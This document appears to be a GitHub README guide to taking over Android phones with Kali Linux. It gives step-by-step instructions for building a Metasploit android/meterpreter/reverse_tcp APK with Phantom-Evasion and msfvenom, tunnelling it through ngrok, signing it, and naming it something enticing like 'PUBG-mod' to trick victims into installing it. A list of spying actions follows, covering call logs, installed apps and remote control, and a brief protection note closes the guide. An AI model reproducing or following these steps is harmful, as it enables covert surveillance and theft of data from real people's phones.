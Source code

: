 ![Banner image](asset.png)
# Guide To Hacking Android Applications using Kali Linux Tools

## Introduction
This project demonstrates how to hack mobile phones using Kali Linux tools. It allows spying on any mobile device and obtaining various details such as installed applications, geolocation, contacts, and even performing mischievous actions like playing random music files. The main technique is to create a payload using the Kali Linux terminal and send it to the victim's mobile phone. After the installation of the payload app, it sends all the data of the victim's mobile phone, granting remote access to the Android device.

## Installation
1. Install the pentesting tool lPhantom Evasion
  - `git clone https://github.com/oddcod3/Phantom-Evasion`
  - `python3 phantom-evasion.py --setup`
2. Download [ngrok](https://ngrok.com/download)

## Process
### Payload Generation
1. Launch Phantom-Evasion in interactive mode using the command `python3 phantom-evasion.py`.
2. Choose the Android modules.
3. Use MSFvenom for generating the payload and save it as an APK file.
4. Set up a listener to the Metasploit framework for Android using the default `Android/meterpreter/reverse_tcp` payload.
5. Insert the LHOST (Local Host IP) and LocalPort which will be established in the Ngrok session.

### Signing the APK
Android devices only install signed APK files. Sign the APK file manually in Kali Linux using:
- Keytool (Pre-installed)
- jar signer (Pre-installed)
- zipalign (Included in Phantom Evasion)

Set the name of the generated APK file to something enticing, for example: "PUBG-mod," to increase the chances of the victim installing the app.

### Metasploit Setup
1. Use the Kali Linux tool Metasploit by entering the `msfconsole` command.
2. Use `multi/handler` and set the payload as `android/meterpreter/reverse_tcp`.
3. Set the LHOST (IP address of the hacking PC) and LPORT (typically 4444).
4. Set `ExitOnSession` to `false` to continue searching and creating sessions with the APK without restarting the hacking process.

## Potential Attacks
- Get the system information of the Android device on which the payload APK is installed.
- Get details of the installed apps on the phone.
- Get any application on the victim's mobile to run and open its main activity.
- Get detailed information about the call log of the victim's mobile.
- Maliciously play audio files on the victim's Android device.

## Warning
How to protect your android phone from such attacks?
- Don't allow downloading apps from cloud websites that ask for many unnecessary permissions.
- Don't install apps with unknown resources enabled.
- Use antivirus software on mobile devices to monitor activity.
- Always confirm the source of files before downloading.
